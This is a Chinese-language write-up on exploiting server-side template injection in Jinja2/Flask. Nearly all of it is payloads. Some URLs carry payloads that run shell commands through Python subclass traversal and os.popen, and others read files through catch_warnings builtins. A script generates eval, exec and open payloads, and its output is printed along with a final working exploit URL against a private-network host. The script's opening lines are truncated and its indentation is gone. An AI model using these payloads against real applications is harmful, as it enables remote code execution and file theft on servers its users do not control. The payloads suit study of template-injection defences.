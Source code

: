![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUic4wuWs2bRDpr1GFXVTEJgx86CZw31aUGUcNqMO3Us0eMV3bkMxZAdw/640?wx_fmt=png)

执行命令

```
#任意执行
http://192.168.228.36/?name={{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrU6cTJibMFiaqv2QwYUQSMyt7747WAQ35EFibxW6H0GCL4hCmJKZtO6JVyA/640?wx_fmt=png)

```
#命令执行：
{%for c in[].__class__.__base__.__subclasses__()%}{%if c.__name__=='catch_warnings'%}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()")}}{% endif %}{% endfor %}
#文件操作
{%for c in[].__class__.__base__.__subclasses__()%}{%if c.__name__=='catch_warnings'%}{{ c.__init__.__globals__['__builtins__'].open('filename','r').read()}}{% endif %}{% endfor %}
```

寻找 function 的过程可以用一个小脚本解决, 脚本找到被重载过的 function，然后组成 payload

```
_','__contains__','__add__','__sub__','__mul__']
neededFunction =['eval','open','exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
for attr in searchList:
if hasattr(i, attr):
if eval('str(i.'+attr+')[1:9]')=='function':
for goal in neededFunction:
if(eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
if pay !=1:
print(i.__name__,":", attr, goal)
else:
print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='"+ i.__name__ +"' %}{{ c."+ attr +".__globals__['__builtins__']."+ goal +"(\"[evil]\") }}{% endif %}{% endfor %}")
```

output

```
{%for c in[].__class__.__base__.__subclasses__()%}{%if c.__name__=='_Unframer'%}{{ c.__init__.__globals__['__builtins__'].exec("[evil]")}}{% endif %}{% endfor %}
{%for c in[].__class__.__base__.__subclasses__()%}{%if c.__name__=='ImmutableDictMixin'%}{{ c.__hash__.__globals__['__builtins__'].eval("[evil]")}}{% endif %}{% endfor %}
{%for c in[].__class__.__base__.__subclasses__()%}{%if c.__name__=='ImmutableDictMixin'%}{{ c.__hash__.__globals__['__builtins__'].open("[evil]")}}{% endif %}{% endfor %}
```

随便选一个替换我们之前的 Payload, 会发现成功执行

```
http://192.168.228.36/?name={%for c in[].__class__.__base__.__subclasses__()%}{%if c.__name__=='ImmutableDictMixin'%}{{ c.__hash__.__globals__['__builtins__'].eval('__import__("os").popen("id").read()')}}{% endif %}{% endfor %}
```

